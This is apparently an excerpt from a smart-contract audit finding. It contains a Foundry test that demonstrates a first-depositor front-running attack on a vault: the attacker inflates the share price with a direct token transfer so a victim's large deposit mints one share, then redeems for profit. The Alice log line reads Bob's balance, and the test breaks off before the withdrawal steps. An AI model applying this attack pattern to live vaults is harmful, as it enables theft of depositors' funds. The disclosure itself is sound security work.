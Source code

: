 This process gives Bob a ≈500k asset profit and Alice incurs a ≈500k loss:

```solidity
  function test__FirstDepositorFrontRun() public {
    uint256 amount = 2_000_000 ether;

    uint256 aliceassetAmount = amount;

    asset.mint(bob, aliceassetAmount);
    asset.mint(alice, aliceassetAmount);

    vm.prank(alice);
    asset.approve(address(vault), aliceassetAmount);
    assertEq(asset.allowance(alice, address(vault)), aliceassetAmount);

    vm.prank(bob);
    asset.approve(address(vault), aliceassetAmount);
    assertEq(asset.allowance(bob, address(vault)), aliceassetAmount);

    uint256 alicePreDepositBal = asset.balanceOf(alice);

    console.log("\n=== INITIAL STATES ===");
    console.log("Bob assets: %s", asset.balanceOf(bob));
    console.log("Alice assets: %s", alicePreDepositBal);

    // Bob frontruns Alice deposit.
    vm.startPrank(bob);
    uint256 bobShareAmount = vault.deposit(1, bob);
    console.log("\n=== BOB DEPOSITS ===");
    console.log("Bob Shares Amount: %s", bobShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());

    assertTrue(bobShareAmount == 1);
    assertTrue(vault.totalAssets() == 1);
    assertEq(adapter.afterDepositHookCalledCounter(), 1);

    // Bob transfers 1MM of tokens to the adapter
    asset.transfer(address(vault.adapter()), 1_000_000 ether);
    console.log("\n=== AFTER BOB's TRANSFER ===");
    console.log("Bob Shares Amount: %s", bobShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());
    assertTrue(vault.totalAssets() == 1_000_000 ether + 1);
    vm.stopPrank();

    
    // Alice Txn is mined
    vm.prank(alice);
    uint256 aliceShareAmount = vault.deposit(aliceassetAmount, alice);
    console.log("\n=== AFTER ALICE TX ===");
    console.log("Alice Shares Amount: %s", aliceShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());
    assertTrue(aliceShareAmount == 1);

    console.log("Convertable assets that Bob receives: %s", vault.convertToAssets(vault.balanceOf(bob)));
    console.log("Convertable assets that Alice receives: %s", vault.convertToAssets(vault.balanceOf(bob)));

    // Bob backruns the call and gets a 500k profit
    vm.prank(bob);
    vault.redeem(bobShareAmount, bob, bob);
    console.log("\n=== BOB WITHDRAWS ===");

    console.log("\n=== ALICE WITHDRAWS ===");
```